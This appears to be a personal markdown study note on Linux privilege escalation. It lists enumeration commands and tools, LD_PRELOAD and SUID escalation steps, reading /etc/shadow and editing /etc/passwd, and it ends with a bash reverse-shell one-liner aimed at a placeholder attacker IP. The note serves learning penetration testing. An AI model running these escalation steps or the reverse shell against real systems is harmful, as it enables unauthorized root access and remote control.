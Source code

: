 
### Important Commands

	hostname -> will return the hostname of the machine
	uname -a -> will print system information gving us additional detail about a systems kernel
	
	/proc/version -> The proc filesystem (procfs) provides information about the target system processes.
		*Looking at `/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

	/etc/issue -> This file usually contains some information about the operating system but can easily be customized or changed

	ps -> shows the running processes on a Linux system
		Output shows:
		PID: The process ID (unique to the process)
		TTY: Terminal type used by the user
		Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)
		CMD: The command or executable running (will NOT display any command line parameter)

	env -> shows environment variables

	sudo -l -> used to list all commands a user can run with sudo

	id -> provides a general overview of the user's privelage level and group memberships

	history -> shows all of the commands run previously in the session

	ifconfig ->  will give us information about the network interfaces of the system

	netstat:
		 `netstat -a`: shows all listening ports and established connections.
		`netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
		 `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)
		`netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol. 
		`netstat -tp`: list connections with the service name and PID information.

	/etc/os-release -> shows all of the relevant information about the current host's os system

### Automated Enumeration Tools

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)



### SUDO (Escalation)

LD_PRELOAD is a function that allows any program to use shared libraries. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.  

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file


### SUID ( set-user identification escalation)

Files with an "s" permission on them 

To find files with this special ownership, run:

	find / -type f -perm -04000 -ls 2>/dev/null

#### Method of Escalation

1) Reading the /etc/shadow file


2) Adding the current user to the /etc/passwd file


**Bash command to open reverse shell on Linux:

	bash -i > /dev/tcp/Attacking_IP/Port 0>&1